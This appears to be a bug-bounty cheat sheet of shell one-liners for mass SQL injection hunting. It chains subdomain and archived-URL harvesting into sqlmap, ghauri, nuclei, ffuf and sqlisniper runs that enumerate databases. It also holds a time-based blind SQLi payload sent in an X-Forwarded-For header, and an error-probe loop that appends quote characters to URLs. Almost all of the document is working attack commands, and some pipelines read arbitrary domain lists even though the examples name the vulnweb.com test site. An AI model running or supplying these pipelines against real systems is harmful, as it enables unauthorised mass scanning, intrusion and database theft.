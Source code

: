# SQLis

### Mass error based sqli hunting

```
subfinder -dL domain.txt -recursive -all -silent | httpx -mc 200 | waybackurls | qsreplace -a "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | gf sqli | sort -u | nuclei -t ~/pvt-template/SQLi/error-based-sqli/ -dast -o sqlis.txt
```

### waymore, qsreplace, gf, ghauri

```
waymore -i "testphp.vulnweb.com" -n -mode U | qsreplace -a "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | gf sqli | sort -u | while read urls; do ghauri -u "$urls" --dbs --threads 2 --batch --level 2 | tee -a ghauri.sqli.txt; done
```

### waymore, qsreplace, gf, sqlmc

```
waymore -i "testphp.vulnweb.com" -n -mode U | qsreplace -a "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | gf sqli | sort -u | while read urls; do sqlmc --url "$urls" -d 3 -o sqlmc.txt; done
```

### waymore, qsreplace, gf, nuclei

```
waymore -i "testphp.vulnweb.com" -n -mode U | qsreplace -a "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | gf sqli | sort -u | nuclei -t ~/nuclei-templates/dast/vulnerabilities/sqli/sqli-error-based.yaml -dast -o nuclei_sqli.txt
```


### waybackurls, gf, sqlmap

```
waybackurls | sort -u | gf sqli >> sqli; sqlmap -m sqli --batch --random-agent --level 3 --risk 3
```

### subfinder, httpx, waybackurls, gf, ghauri

```
subfinder -d vulnweb.com -recursive -all -silent | httpx | waybackurls | sort -u | gf sqli | sort -u | while read urls; do ghauri -u "$urls" --dbs --threads 2 --batch --level 2 | tee -a ghauri.sqli.txt; done
```

### waymore

```
waymore -i "testphp.vulnweb.com" -n -mode U | grep ".php" | sed 's/\.php.*/.php\//' | sort -u | sed s/$/%27%22%60/ | while read url do ; do curl --silent "$url" | grep -qs "You have an error in your SQL syntax" && echo -e "$url \e[1;32mSQLI by Cybertix\e[0m" || echo -e "$url \e[1;31mNot Vulnerable to SQLI Injection\e[0m" ;done
```


# Blind SQLis

### waymore, qsreplace, gf, sqlisniper

```
waymore -i "testphp.vulnweb.com" -n -mode U | qsreplace -a "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | gf sqli | sort -u | while read urls; do sqlisniper -p -u "$urls" --payload /usr/share/wordlists/my-payloads/SQLi/Blind-SQLis/bsqli-sniper.txt --headers /opt/sqli/SqliSniper/headers.txt -o SQLi_blind_sniper.txt; done
```

### waybackurls

```
waybackurls -no-subs testphp.vulnweb.com | grep -E '\bhttps?://\S+?=\S+' | grep -E '\.php|\.asp' | sort -u | sed 's/\(=[^&]*\)/=/g' | tee urls.txt | sort -u -o urls.txt 
```

### waymore, qsreplace, gf, ffuf

```
waymore -i "testphp.vulnweb.com" -n -mode U | qsreplace "FUZZ" | gf sqli | sort -u | while read urls; do ffuf -u "$urls" -w /usr/share/wordlists/my-payloads/SQLi/Blind-SQLis/blind-sqli.txt -mt ">18000" -v -mc 200 -enc FUZZ:urlencode -timeout 150 -o SQLi_blind_ffuf.json; done
```


# Header based SQLis

```
subfinder -d vulnweb.com -recursive -all -silent | httpx -silent -H "X-Forwarded-For: 'XOR(if(now()=sysdate(),sleep(13),0))OR" -rt -timeout 20 -mrt '>13' | tee -a header_based_bsqli.txt
```

## Ghauri SQLi finder

```
ghauri -u "http://testphp.vulnweb.com/artists.php?artist=*" --dbs --current-db --hostname | tee ghauri.sqli.txt
```




# Resources

https://github.com/Gerxnox/One-Liner-Collections

https://github.com/0xPugal/One-Liners

https://github.com/daffainfo/Oneliner-Bugbounty

https://github.com/thecybertix/One-Liner-Collections

https://github.com/dwisiswant0/awesome-oneliner-bugbounty
